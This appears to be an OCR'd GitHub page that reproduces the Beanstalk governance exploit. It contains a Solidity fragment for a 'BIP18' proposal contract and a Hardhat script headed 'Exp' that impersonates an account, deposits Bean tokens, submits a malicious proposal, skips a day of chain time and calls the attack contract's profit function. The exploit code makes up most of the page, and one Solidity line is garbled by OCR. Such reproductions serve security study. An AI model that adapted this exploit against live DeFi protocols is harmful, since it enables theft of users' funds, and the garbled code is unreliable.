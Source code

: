 ```solidity
    function getSomeBeans() external payable returns (uint){
        address[] memory path = new address[](2 "] memory path = new address[");
        path[0] = weth;
        path[1] = beanTokenAddress;
        uint256[] memory res;
        res = Irouter(router).swapExactETHForTokens{value:msg.value}(211000000000, path, msg.sender, block.timestamp);
        return res[1];
    }
}
```

Exp:

```javascript
const hre = require("hardhat");



async function main() {

    const ATTACKER = "0x28C6c06298d514Db089934071355E5743bf21d60";
    const BEANPROTOCOL = "0xc1e088fc1323b20bcbee9bd1b9fc9546db5624c5";
    const BEAN = "0xDC59ac4FeFa32293A95889Dc396682858d52e5Db";
    await hre.network.provider.request({
        method: "hardhat_impersonateAccount",
        params: [ATTACKER],
    });
    const signer = await hre.ethers.getSigner(ATTACKER);
    
    let BIP18 = await hre.ethers.getContractFactory("BIP18",signer);
    const bip18 = await BIP18.deploy();
    await bip18.deployed();
    console.log("bip18 contract deployed to:", bip18.address);

    let ATTACK = await hre.ethers.getContractFactory("attack",signer);
    const attack = await ATTACK.deploy();
    await attack.deployed();
    console.log("attack contract deployed to:", attack.address);


    
    const BeanProtocol = await hre.ethers.getContractAt("contracts/attack.sol:IBeanProtocol", BEANPROTOCOL, signer);
    const Bean = await hre.ethers.getContractAt("contracts/attack.sol:IERC20", BEAN, signer);
    
    
    console.log("step 1: get some beans and make a proposal.");
    const depositAmount = await bip18.getSomeBeans({
        value: hre.ethers.utils.parseEther("73.0")
    });
    await Bean.approve(BEANPROTOCOL, 211000000000);
    await BeanProtocol.depositBeans(211000000000);
    await BeanProtocol.propose([], bip18.address, "0xe1c7392a", 3);
    console.log("step 2: wait for a day, to met the emergencyWithdraw time requirement.");
    await hre.network.provider.send("evm_increaseTime", [3600 * 24]);
    await hre.network.provider.send("evm_mine");
    console.log("step 3: launch the attack.");
    await attack.profit();



}

```